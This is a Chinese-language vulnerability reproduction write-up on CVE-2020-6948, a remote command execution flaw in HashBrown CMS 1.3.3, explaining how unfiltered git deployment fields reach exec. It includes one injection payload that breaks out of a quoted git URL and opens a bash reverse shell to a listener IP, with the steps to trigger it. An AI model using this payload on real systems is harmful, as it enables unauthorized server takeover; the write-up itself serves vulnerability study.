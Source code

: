 # （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2964](https://www.zhihuifly.com/t/topic/2964)

# （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞

## 一、漏洞简介

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS 1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

HashBrown CMS 1.3.3

## 三、复现过程

在之前收集的资料里面总结了发现漏洞基本有三个方法：

*   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。https://github.com/wireghoul/graudit 这个项目就罗列了很多语言的关键词可以用作参考。
*   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。
*   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep 之后发现了下面的结果。

![image](img/0ca76dccc4bb1688f8b32eee76d34890.png)

看来这个应用使用git 相关命令，如果可以传入url 参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js 文件查看源代码。

![image](img/10bf938c493402bbc2e3a8e8f84d6591.png)

其中可以看到url由username，password，和repro 几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

```
https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1 
```

配置如下：

![image](img/28d40437f3002fd2be223cc0a7d02623.png)

然后点击media菜单触发git命令执行

![image](img/a99c5d589913971ec98c7ae38c21b894.png)

接下来在监听的机器上就可以获得shell了

![image](img/49a857884061e89c0b10e969064c5aa8.png)

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j